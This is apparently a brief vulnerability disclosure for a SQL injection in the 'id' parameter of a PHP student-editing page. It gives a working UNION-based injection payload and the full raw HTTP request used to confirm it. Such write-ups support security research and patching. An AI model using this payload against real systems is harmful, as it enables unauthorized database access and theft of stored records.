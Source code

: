 BUG_Author:saintone98

Vulnerability File: /bilal final/edit_stud.php

GET parameter 'id' exists SQL injection vulnerability

Payload: id=-1' union all select null,null,null,concat(0x71727374,0x61626364,0x51525354),null,null,null,null,null,null,null,null,null,null,null,null-- -

```
GET /bilal%20final/edit_stud.php?id=-1%27%20union%20all%20select%20null,null,null,concat(0x71727374,0x61626364,0x51525354),null,null,null,null,null,null,null,null,null,null,null,null--%20- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=2vcgmn9u7h75h5jbjdi1d2e871
Connection: close
```

The string is displayed as scheduled

![image](https://github.com/saintone98/picture/blob/main/abcd.png)
